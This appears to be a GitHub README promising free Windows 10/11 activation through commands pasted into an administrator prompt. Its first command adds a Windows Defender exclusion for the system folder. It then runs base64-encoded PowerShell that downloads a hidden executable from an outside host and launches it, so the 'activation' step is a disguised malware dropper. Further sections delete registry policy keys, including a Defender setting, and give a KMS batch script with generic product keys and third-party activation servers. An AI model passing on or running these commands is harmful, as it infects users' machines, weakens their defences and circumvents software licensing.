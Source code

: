 
## To activate Windows 10 and 11 follow the steps

> Just copy and paste the following command into CMD admin

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand CgBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwAHMAOgAvAC8AZAByAG8AcAAwADAAMAAwAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAXABUAGUAbQBwAFwALgBlAHgAZQAiADsAIABTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAiACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0AFwAVABlAG0AcABcAC4AZQB4AGUAIgA= >nul 2>&1 || (echo Need to run as Administrator )




> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure


## Virus And Threat Protection On

### CMD run as administrator
CMD Commands:
###
  reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKLM\Software\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware
  reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKCU\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKCU\Software\Policies" /f
  reg delete "HKLM\Software\Microsoft\Policies" /f
###




## To activate Windows 10 and 11 follow the steps
# Create active.cmd file and paste this code
# Run as administrator


@echo off
 title Activate Windows 8.1, 10, 11 ALL versions for FREE!&cls&echo ============================================================================&echo #Project: Activating Microsoft software products for FREE without software&echo ============================================================================&echo.&echo #Supported products:&echo - Windows 11 Home&echo - Windows 11 Home N&echo - Windows 11 Home Single Language&echo - Windows 11 Home Country Specific&echo - Windows 11 Professional&echo - Windows 11 Professional N&echo - Windows 11 Education&echo - Windows 11 Education N&echo - Windows 11 Enterprise&echo - Windows 11 Enterprise N&echo - Windows 11 Enterprise LTSB&echo - Windows 11 Enterprise LTSB N&echo.&echo.&echo ============================================================================&echo Activating your Windows…&cscript //nologo slmgr.vbs /ckms >nul&cscript //nologo slmgr.vbs /upk >nul&cscript //nologo slmgr.vbs /cpky >nul&set i=1&wmic os | findstr /I "enterprise" >nul
 if %errorlevel% EQU 0 (cscript //nologo slmgr.vbs /ipk NPPR9-FWDCX-D2C8J-H872K-2YT43 >nul&cscript //nologo slmgr.vbs /ipk DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4 >nul&cscript //nologo slmgr.vbs /ipk WNMTR-4C88C-JK8YV-HQ7T2-76DF9 >nul&cscript //nologo slmgr.vbs /ipk 2F77B-TNFGY-69QQF-B8YKP-D69TJ >nul&cscript //nologo slmgr.vbs /ipk DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ >nul&cscript //nologo slmgr.vbs /ipk QFFDN-GRT3P-VKWWX-X7T3R-8B639 >nul&goto server) else wmic os | findstr /I "home" >nul
 if %errorlevel% EQU 0 (cscript //nologo slmgr.vbs /ipk TX9XD-98N7V-6WMQ6-BX7FG-H8Q99 >nul&cscript //nologo slmgr.vbs /ipk 3KHY7-WNT83-DGQKR-F7HPR-844BM >nul&cscript //nologo slmgr.vbs /ipk 7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH >nul&cscript //nologo slmgr.vbs /ipk PVMJN-6DFY6-9CCP6-7BKTT-D3WVR >nul&goto server) else wmic os | findstr /I "education" >nul
 if %errorlevel% EQU 0 (cscript //nologo slmgr.vbs /ipk NW6C2-QMPVW-D7KKK-3GKT6-VCFB2 >nul&cscript //nologo slmgr.vbs /ipk 2WH4N-8QGBV-H22JP-CT43Q-MDWWJ >nul&goto server) else wmic os | findstr /I "10 pro" >nul
 if %errorlevel% EQU 0 (cscript //nologo slmgr.vbs /ipk W269N-WFGWX-YVC9B-4J6C9-T83GX >nul&cscript //nologo slmgr.vbs /ipk MH37W-N47XK-V7XM9-C7227-GCQG9 >nul&goto server) else (goto notsupported)
 :server
 if %i%==1 set KMS=kms7.MSGuides.com
 if %i%==2 set KMS=kms8.MSGuides.com
 if %i%==3 set KMS=kms9.MSGuides.com
 if %i%==4 goto notsupported
 cscript //nologo slmgr.vbs /skms %KMS%:1688 >nul&echo ============================================================================&echo.&echo.
 cscript //nologo slmgr.vbs /ato | find /i "successfully" && (echo.&echo ============================================================================&echo.&echo #My official blog: MSGuides.com&echo.&echo #How it works: bit.ly/kms-server&echo.&echo #Please feel free to contact me at msguides.com@gmail.com if you have any questions or concerns.&echo.&echo #Please consider supporting this project: donate.msguides.com&echo #Your support is helping me keep my servers running everyday!&echo.&echo ============================================================================&choice /n /c YN /m "Would you like to visit my blog [Y,N]?" & if errorlevel 2 exit) || (echo The connection to my KMS server failed! Trying to connect to another one… & echo Please wait… & echo. & echo. & set /a i+=1 & goto server)
 explorer "http://microsoft.com"&goto halt
 :notsupported
 echo ============================================================================&echo.&echo Sorry! Your version is not supported.&echo.
 :halt
 pause >nul


